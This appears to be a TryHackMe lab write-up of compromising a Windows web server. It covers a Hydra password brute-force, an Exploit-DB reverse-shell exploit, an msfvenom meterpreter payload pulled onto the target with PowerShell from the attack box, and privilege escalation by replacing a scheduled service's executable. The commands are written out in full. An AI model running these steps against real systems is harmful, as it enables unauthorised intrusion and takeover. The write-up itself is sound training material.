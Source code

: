 ## Recon
 
Begin recon with NMAP to see which ports are open on the box
 
 ![image](https://user-images.githubusercontent.com/88425510/215881658-a6e4f83f-dab3-4642-882e-db8aa872ad88.png)
 
NMAP shows that port 80 is open, suggesting there is a webpage being hosted by this machine.
 
Enumerate the webpage using GOBUSTER
 
 ![image](https://user-images.githubusercontent.com/88425510/215881709-65b0567b-80a4-491b-8bd6-7537a574485b.png)
![image](https://user-images.githubusercontent.com/88425510/215881730-2db10926-5a98-41bc-807a-153e028f5312.png)

 
This shows a number of places to check - note robots.txt
 
Visit robots.txt to see if there is any useful information available
 
 ![image](https://user-images.githubusercontent.com/88425510/215881777-52aa1b05-3f38-4d5a-a2e7-f280cae8b0a3.png)
 
Account looks promising
 
Navigate to account to see what we have

 ![image](https://user-images.githubusercontent.com/88425510/215881821-b08fe4fc-aa3e-49e8-adc5-f0c27d377852.png)
 
Note the default credentials seems to be admin:admin - this does not work so we will use admin as the username and attempt to bruteforce the password
 
## Foothold
 
Attempt a login and capture it with Burpsuite to gain information needed to form the Hydra attack
 
 ![image](https://user-images.githubusercontent.com/88425510/215881899-15f4d0b0-8f35-4b27-8548-ee7e26685e85.png)

Lines 1 and 14 are needed
Take these parts from Burp and the webpage to create Hydra command:
 
 ![image](https://user-images.githubusercontent.com/88425510/215881925-d88e0953-f22b-4f85-846c-9ef155e7f23b.png)
![image](https://user-images.githubusercontent.com/88425510/215881971-e7bd79f6-3201-4100-8438-7c7f1b09c86e.png)

 ![image](https://user-images.githubusercontent.com/88425510/215882009-6bae3aca-fdd6-4a1c-ab96-15472ce2a9f8.png)
 
Login failed
 
 
 
Combine the failed login message and the POST and VIEWSTATE fields to create the Hydra attack:

'''
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.176.34 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=VwAXG6ABUHHdsZyp9V5Zfa%2FQmIafRzp9ILoXJGVuXK8nUhCHtDfc4cAUkNeYybCBgFS7ttIKN9%2BL1TZYt9wc7ImbzKDO42jKqT4NzM2iK4qGYFdI5l7pg9jiSeKSYGI82ymoCvW67UVtpc1TE%2B1wg%2FuUJT23Wobx8ck39wYrMVKKYXRX&__EVENTVALIDATION=3FvnxLCU1vf%2FftSD5m08pwViCr63XR1GLrEKqv2qr42Hq8JQp2LWRA97rKzv1QZ1I8etW3igopbcuFlAq9be8kEAzsR5lfswhZLzLPLpwJrudjeGAiqRUNtpYvd2OfVPGKlinHl3CuVaVXXWfMEWJuKroB6hY9%2BlMqRgvnn3xhT%2Bzmv0&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
'''
 
Note: ^USER^ and ^PASS^ must be used to use the username and password list
 
 ![image](https://user-images.githubusercontent.com/88425510/215882113-324e4abe-518a-449f-8c45-e0f952c262be.png)
 
Attack successful
 
## ID vulns
 
Login with the stolen credentials and then learn about the system
 
![image](https://user-images.githubusercontent.com/88425510/215882190-e03adfd8-a2b5-4960-a267-8d7aa68121fc.png)

See what verstion, google and search exploit-DB
 
https://www.exploit-db.com/exploits/46353
 
 ![image](https://user-images.githubusercontent.com/88425510/215882217-23cc0115-51f0-4bc4-a49d-14b67cc76c33.png)
  
Download and configure the exploit, remove bloat at the start and put attackbox info in socket
 
 ![image](https://user-images.githubusercontent.com/88425510/215882296-f7baf7c8-f18f-48f4-8131-ecd13176372f.png)
 
Attack box netcat listener on same port used in exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882328-bdf896a3-ef24-4ec8-8efb-6553ec9f2ebe.png)
 
Exploit-DB how to use exploit
 
 
 
Upload the exploit
 
 ![image](https://user-images.githubusercontent.com/88425510/215882417-52ceb1cc-2a97-402d-b84d-61347262061b.png)
 
 ![image](https://user-images.githubusercontent.com/88425510/215882448-032138fc-2a4c-4630-8ca6-cabcb4ccb34b.png)

Shell popped
 
## Shell stabilisation
 
 ![image](https://user-images.githubusercontent.com/88425510/215882481-9478302a-342f-4027-9dc8-fde50b57699b.png)
 
Some on box enumeration
 
Going to stabilise the shell with a meterpreter shell as it crashed a couple of times:
 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.87.68 LPORT=9001 -f exe > shell.exe
 
 ![image](https://user-images.githubusercontent.com/88425510/215882523-b58d6d30-3d0d-46b9-b2b0-34b40caa3b29.png)
 
python3 -m http.server
 
 ![image](https://user-images.githubusercontent.com/88425510/215882566-9695fa26-79fa-4485-9a78-8193fb73cee9.png)

Host a simple http server
 
On the target machine navigate to world writable location:
 
 ![image](https://user-images.githubusercontent.com/88425510/215882597-dd339976-c182-40c6-b7d6-0bcfa276baee.png)
 
powershell -c "Invoke-WebRequest -Uri 'http://10.10.87.68:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
 
 ![image](https://user-images.githubusercontent.com/88425510/215882617-7a1dde73-7049-46a0-bb08-2016abe78e51.png)

Use powershell to pull the meterpreter shell over
 
## Get meterpreter shell
 
Open metasploit on attack box and set up a multi/handler
Note - 
set payload windows/meterpreter/reverse_tcp
Set lport to port used in msfvenom payload
Set lhosts to attack box
 
 ![image](https://user-images.githubusercontent.com/88425510/215882673-aa04534b-b6f3-4d1f-8f59-d36540e7d871.png)

Running shell.exe on target machine and getting session on metasploit
 
 
## On host enumeration
 
Upload winPEAS
 
 ![image](https://user-images.githubusercontent.com/88425510/215882711-ef262bed-e2ba-4e3a-a35c-88f3020b002d.png)

Attack box hosing simple python server

![image](https://user-images.githubusercontent.com/88425510/215882739-5ebee602-d7d0-475a-8677-1905a7606000.png)

powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/winPEAS.bat' -OutFile 'C:\Windows\Temp\winPEAS.bat'"
 
 
Using powershell to get winPEAS
 
In Shell:
 
.\winPEAS.bat
 
In order to actually read the winPEAS output I had to pipe it to a .txt file and download it. I think this is something to do with the buffer/ terminal memory on the attack box. Something to look in to again.
The output shows that WindowsScheduler is running, this can often be abused
 
In order to read the output:
.\winPEAS.bat > winpeas.txt
Download winpeas.txt
Less winpeas.txt
 
 
Having the below service running means something is scheduled:
 
![image](https://user-images.githubusercontent.com/88425510/215882826-3e8b1128-cd5a-4023-acd2-193c3585b611.png)

Navigate to program filex x86 \systemscheduler \events
 you can see what is being run
 
![image](https://user-images.githubusercontent.com/88425510/215882884-a5083080-3c5c-439b-a1d6-51c4e86e45e0.png)

![image](https://user-images.githubusercontent.com/88425510/215882932-c52f25ff-c24e-4e7b-882a-538f68bc4d71.png)

![image](https://user-images.githubusercontent.com/88425510/215882954-34f78cef-6519-40a0-8c53-22523b14c788.png)
 
We can replace message.exe with our shell.exe and as it is being run as administrator this will elevate our privileges
For some reason on this box you cannot copy it and so will have to download it as before
 
Get shell.exe into systemscheduler:
 
powershell -c "Invoke-WebRequest -Uri 'http://10.10.189.26:8000/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\shell.exe'"
 
Exploit service:
 
![image](https://user-images.githubusercontent.com/88425510/215883005-a2d10dab-6ea2-432c-bcef-086b9235c831.png)
![image](https://user-images.githubusercontent.com/88425510/215883032-6c0d9df9-7fe6-4c8b-934d-8dae7ff38517.png)
![image](https://user-images.githubusercontent.com/88425510/215883049-6d25a5c3-54a4-4ebd-a383-d8e923ac668b.png)

 
Replace message.exe with shell.exe
 
Note, this creates a session every 30 secons when the service runs so stop handler after you have one
 
## Getting flags:
 
Session 2 gives admin session

![image](https://user-images.githubusercontent.com/88425510/215883109-c73902f7-0ac3-4573-a72a-0364e012f6fc.png)
 
Look around for flags, both were on respective users desktops

![image](https://user-images.githubusercontent.com/88425510/215883160-72ec04fd-d7fe-400f-9a1d-da4e677e0443.png)

![image](https://user-images.githubusercontent.com/88425510/215883202-02915721-c309-4912-9770-51ec57eef056.png)

![image](https://user-images.githubusercontent.com/88425510/215883220-ed5c6814-8bae-4d6e-a7d9-10e19094f723.png)
 
Answer to one of the questions
 
## Final thoughts
 
This was an enjoyable box. I followed along the video on THM for the priv esc stuff. 
It took a long time for me to craft the Hydra command correctly, I spent a good 30 mins waiting and then got a load of false positives, then recrafted the command and got it right. 
The winPEAS scrolling problem is something I need to look back into, I've had it before on other machines and did find a fix previously but cannot remember what it was, although saving outputs is a useful thing to do. 
 


